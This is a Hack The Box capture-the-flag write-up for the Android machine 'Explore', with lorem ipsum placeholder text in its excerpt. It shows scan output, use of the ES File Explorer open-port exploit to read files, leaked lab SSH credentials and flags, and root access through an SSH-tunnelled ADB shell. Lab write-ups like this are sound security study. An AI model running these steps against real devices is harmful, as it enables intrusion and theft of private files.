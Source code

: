 ```yaml
---
layout: single
title: Explore - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-07-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-explore/explore_logo.png
  teaser_home_page: true
  icon: /assets/images/android.png
categories:
  - hackthebox
  - infosec
tags:  
  - android
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-explore/explore_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV --open 10.10.10.247
    PORT     STATE SERVICE VERSION
    2222/tcp open  ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.91%I=7%D=7/12%Time=60EC0C84%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

  [root:~]# nmap -p- --open 10.10.10.247
    PORT      STATE SERVICE
    2222/tcp  open  EtherNetIP-1
    42135/tcp open  unknown
    46285/tcp open  unknown
    59777/tcp open  unknown

  [root:~]# nmap -sU --open 10.10.10.247
    PORT     STATE         SERVICE
    1900/udp open|filtered upnp
    5353/udp open|filtered zeroconf

2. Googling about the unknown ports we quickly discover that 42135 & 59777 = ES File Explorer - which fits the name of the box.

There are numerous vulns out there for ES File Explorer, even a MSF module, however firing them off the shelf gives me response
500 error. After wasting a good amount of time with this error, I found that this is unintended and you should restart the box
until it works.

  [root:/git/htb/explore]# curl --header "Content-Type: application/json" --request POST --data "{"command":getDeviceInfo}" http://10.10.10.247:59777 -vvv
    Note: Unnecessary use of -X or --request, POST is already inferred.
    *   Trying 10.10.10.247:59777...
    * Connected to 10.10.10.247 (10.10.10.247) port 59777 (#0)
    > POST / HTTP/1.1
    > Host: 10.10.10.247:59777
    > User-Agent: curl/7.74.0
    > Accept: */*
    > Content-Type: application/json
    > Content-Length: 23
    >
    * upload completely sent off: 23 out of 23 bytes
    * Mark bundle as not supporting multiuse
    * HTTP 1.0, assume close after body
    < HTTP/1.0 200 OK
    < Content-Type: text/plain
    < Date: Mon, 12 Jul 2021 08:47:41 GMT
    < Content-Length: 73
    <
    * Closing connection 0
    {"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}

The vulnerability now works, to automate the process download a poc script and go at it.

  [root:/git/htb/explore]# python3 rce.py --cmd listPics --ip 10.10.10.247                                                          (master✱)
    [*] Executing command: listPics on 10.10.10.247
    [*] Server responded with: 200

    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

'creds.jpg' sounds like a great picture, download it.

  [root:/git/htb/explore]# python3 rce.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247                           (master✱)
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
    	from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg

CREDS = kristi:Kr1sT!5h@Rp3xPl0r3!


3. Login with SSH and grab user.txt

  [root:~]# ssh kristi@10.10.10.247 -p 2222
    Password authentication
    Password:
    :/ $ id
      uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cd sdcard
    :/sdcard $ cat user.txt
      f32017174c7c7e8f50c6da52891ae250


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking on running port we find that 5555 is open locally. Reading about Android port 5555 we find that it's used for
   Android Debug Bridge. ADB has an exploit where we can connect to it locally and get a root shell, sounds good!

  :/sdcard $ netstat -antup
    Active Internet connections (established and servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
    ..
    tcp6       0      0 :::5555                 :::*                    LISTEN      -


  [root:~]# ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247
  [root:/opt/scanners/linux]# adb connect localhost:5555
    connected to localhost:5555
  [root:/opt/scanners/linux]# adb devices
    List of devices attached
    emulator-5554	device
    localhost:5555	device
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ $ id
      uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
    x86_64:/ $ exit

  [root:/opt/scanners/linux]# adb root
    restarting adbd as root
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ # id
      uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
    x86_64:/ # find -L /data -name "root.txt" 2>/dev/null
      /data/root.txt
    x86_64:/ # cat data/root.txt
      f04fc82b6d49b41c9b08982be59338c5


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Android Open Ports:
  https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_06B-5_Wu_paper.pdf

ES File Explorer Vuln POC:
  https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

ADB Exploit:
  https://allhacked.com/exploiting-android-through-adb/
  https://stackoverflow.com/questions/14654718/how-to-use-adb-shell-when-multiple-devices-are-connected-fails-with-error-mor
  https://www.remosoftware.com/info/how-to-root-an-android-phone

Find Command in Linux:
  https://www.linode.com/docs/guides/find-files-in-linux-using-the-command-line/
